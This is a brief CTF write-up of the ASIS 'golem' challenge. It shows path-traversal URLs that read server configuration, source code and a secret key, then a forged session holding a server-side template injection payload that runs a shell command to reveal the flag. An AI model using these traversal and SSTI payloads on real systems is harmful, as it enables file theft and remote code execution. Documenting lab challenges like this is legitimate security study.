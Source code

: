 # golem

## LFI

`https://golem.asisctf.com/article?name=../../../../../../etc/nginx/sites-enabled/golem`

=>

    location /static/ {

        root /opt/serverPython/golem;
        expires 30d;
        add_header Pragma public;
        add_header Cache-Control &#34;public&#34;;

    }


`https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/server.py`

=>

    execfile('flag.py')
    execfile('key.py')

    FLAG = flag
    app.secret_key = key

    ...


    
https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/secret.py

=>

`secret key: 7h15_5h0uld_b3_r34lly_53cur3d`


## SSTI

refernece: http://www.freebuf.com/articles/web/136180.html

use the secret key to set session['golem'] = `{{ config[\'RUNCMD\'](\'grep "ASIS" flag.py\',shell=True) }}`

=>

`ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

